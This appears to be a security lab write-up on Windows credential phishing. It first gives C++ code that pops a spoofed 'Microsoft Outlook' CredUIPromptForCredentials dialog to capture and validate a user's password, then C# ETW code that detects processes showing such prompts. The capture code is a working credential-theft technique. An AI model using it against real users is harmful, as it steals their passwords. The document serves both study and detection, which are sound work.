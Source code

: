 # Credentials Collection via CredUIPromptForCredentials

## Purpose

The purpose of this lab is to twofold:

1. write some code that invokes Windows credential prompt, that would allow malware or an attacker to collect targeted user's credentials once they are on the compromised machine
2. write some ETW code that detects processes invoking credential prompts

## Stealing User Credentials

It is possible to collect user credentials with the below code:

{% code title="credentialsprompt.cpp" %}
```cpp
#include <iostream>
#include <Windows.h>
#include <wincred.h>

#pragma comment(lib, "Credui.lib")

int WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nShowCmd)
{
	CREDUI_INFO ci = { sizeof(ci) };
	std::wstring promptCaption = L"Microsoft Outlook";
	std::wstring promptMessage = L"Connecting to spotless@offense.local";
	ci.pszCaptionText = (PCWSTR)promptCaption.c_str();
	ci.pszMessageText = (PCWSTR)promptMessage.c_str();

	WCHAR username[255] = {};
	WCHAR password[255] = {};
	DWORD result = 0;

	result = CredUIPromptForCredentialsW(&ci, L".", NULL, 5, username, 255, password, 255, FALSE, CREDUI_FLAGS_GENERIC_CREDENTIALS);
	if (result == ERROR_SUCCESS)
	{
		HANDLE newToken = NULL;
		BOOL credentialsValid = FALSE;

		credentialsValid = LogonUserW(username, NULL, password, LOGON32_LOGON_INTERACTIVE, LOGON32_PROVIDER_DEFAULT, &newToken);
		if (credentialsValid)
		{
			// valid credentials provided
		}
		else
		{
			// invalid credentials provided
		}
	}
	else if (result == ERROR_CANCELLED)
	{
		// no credentials provided
	}

	return 0;
}
```
{% endcode %}

{% hint style="warning" %}
Although in this lab I am using `CredUIPromptForCredentials` for invoking credentials prompt, you should be using  [`CredUIPromptForWindowsCredentials`](https://docs.microsoft.com/windows/desktop/api/wincred/nf-wincred-creduipromptforwindowscredentialsa)
{% endhint %}

If we compile and run the above code, we get a credential prompt, that captures user's credentials in plain text, which we could then save to a file or send out over the internet:

![](<../../.gitbook/assets/image (547).png>)

{% hint style="info" %}
The above credential prompt can also be invoked with  PowerShell cmdlet `Get-Credential`.
{% endhint %}

## Detecting Credential Prompts

As a defender, one may want to know what processes are popping these credential prompts, so that malicious ones could be detected - i.e if you are notified that suddenly some unusual process showed a prompt, it may mean that the process is infected and the machine is compromised.

Detection of programs showing credential prompts is possible with [Event Tracing for Windows (EWT)](../../miscellaneous-reversing-forensics/windows-kernel-internals/etw-event-tracing-for-windows-101.md#terminology) - Microsoft-Windows-CredUI provider to the rescue:

![](<../../.gitbook/assets/image (548).png>)

Looking at the provider Microsoft-Windows-CredUI in ETWExplorer, we can see that it can provide consumers with events for both `CredUIPromptForCredentials` and `CredUIPromptForWindowsCredentials` invokations:

![](<../../.gitbook/assets/image (549).png>)

We can create an ETW tracing session and subscribe to events from Microsoft-Windows-CredUI provider with C# like so:

{% code title="credentialsprompt-detection.cs" %}
```csharp
# based on https://github.com/zodiacon/DotNextSP2019/blob/master/SimpleConsumer/Program.cs
using Microsoft.Diagnostics.Tracing.Session;
using System;
using System.Collections.Generic;
using System.Diagnostics;
using System.Linq;
using System.Text;
using System.Threading.Tasks;

namespace SimpleConsumer
{
    static class Programa
    {
        static void Main(string[] args)
        {
            using (var session = new TraceEventSession("spotless-credential-prompt"))
            {
                Console.CancelKeyPress += delegate {
                    session.Source.StopProcessing();
                    session.Dispose();
                };

                session.EnableProvider("Microsoft-Windows-CredUI", Microsoft.Diagnostics.Tracing.TraceEventLevel.Always);
                var parser = session.Source.Dynamic;
                parser.All += e => {
                    if (e.OpcodeName == "Start")
                    {
                        Console.WriteLine($"{e.TimeStamp} > Credential Prompt detected in {Process.GetProcessById(e.ProcessID).ProcessName}.exe (PID={e.ProcessID})");
                    }
                };
                session.Source.Process();
            }
        }
    }
}
```
{% endcode %}

## Demo

Below shows RogueCredentialsPrompt.exe and Powershell.exe invoking Windows credential prompts and our simple consumer program detecting that activity:

![](../../.gitbook/assets/creduipromptforcredentials-detection.gif)

## References

{% embed url="https://ired.team/miscellaneous-reversing-forensics/etw-event-tracing-for-windows-101" %}

{% embed url="https://github.com/zodiacon/DotNextSP2019/" %}

{% embed url="https://docs.microsoft.com/en-us/windows/win32/api/wincred/nf-wincred-creduipromptforcredentialsa" %}
